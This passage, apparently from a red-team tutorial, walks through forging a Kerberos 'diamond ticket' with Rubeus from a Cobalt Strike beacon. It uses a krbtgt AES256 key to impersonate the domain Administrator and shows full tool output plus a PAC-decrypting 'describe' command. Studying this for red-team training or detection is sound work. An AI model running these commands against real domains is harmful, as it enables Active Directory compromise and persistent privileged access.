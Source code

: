 The advantage of this technique is that all the peripheral information in the ticket is perfectly in-line with the domain's policy.  Another is that it makes it more difficult to detected based on missing AS-REQs.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap

[*] Action: Diamond Ticket

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/lon-dc-1.contoso.com'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: FIpY29FEAdwzu+CZG4M87n/uyXRCg6UoKecr1m3fZRE=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFj[...snip...]kNPTQ==

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

      doIF5[...snip...]5DT00=
```

Where:

- `/tgtdeleg` uses the TGT [delegation trick](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#tgtdeleg) to obtain a usable TGT for the current user without needing credentials.
    
- `/krbkey` is the krbtgt's AES256 hash.
    
- `/ticketuser` is the user we want to impersonate.
    
- `/ticketuserid` is the impersonated user's RID.
    
- `/domain` is the current domain.

Rubeus `describe` has a `/servicekey` parameter which will decrypt and display the ticket's PAC.  If we describe the first ticket, we see that it's a TGT for the current user (as expected).

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /servicekey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticket:doIFm[...snip...]kNPTQ==

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  pchilds (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  05/03/2025 09:36:08
  EndTime                  :  05/03/2025 19:35:40
  RenewTill                :  12/03/2025 09:35:40
  Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  +3ZP/m5FaNuXrJH6yMFwhFLiTUwBygBhzlQ9qqxB3m8=
  Block One Plain Text     :  6382042730820423
```